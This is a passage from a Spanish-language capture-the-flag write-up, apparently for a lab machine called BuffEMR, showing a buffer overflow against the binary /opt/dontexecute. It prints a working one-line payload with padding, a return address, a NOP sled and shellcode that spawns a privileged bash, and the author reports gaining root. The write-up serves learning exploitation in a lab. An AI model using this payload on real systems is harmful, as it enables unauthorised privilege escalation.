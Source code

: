 ![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912011609.png>)
![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912011520.png>)

Ejecutaremos el binario pasándole como parámetro nuestro **payload** el cual carga nuestro **shellcode**.

```bash
/opt/dontexecute $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*512 + b"\x70\xd2\xff\xff" + b"\x90"*100 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")')
```

Observamos que de igual forma hemos conseguido convertirnos en el usuario **root**.

![](<../assets/images/posts/2024-10-20-buffemr/Pasted image 20240912011940.png>)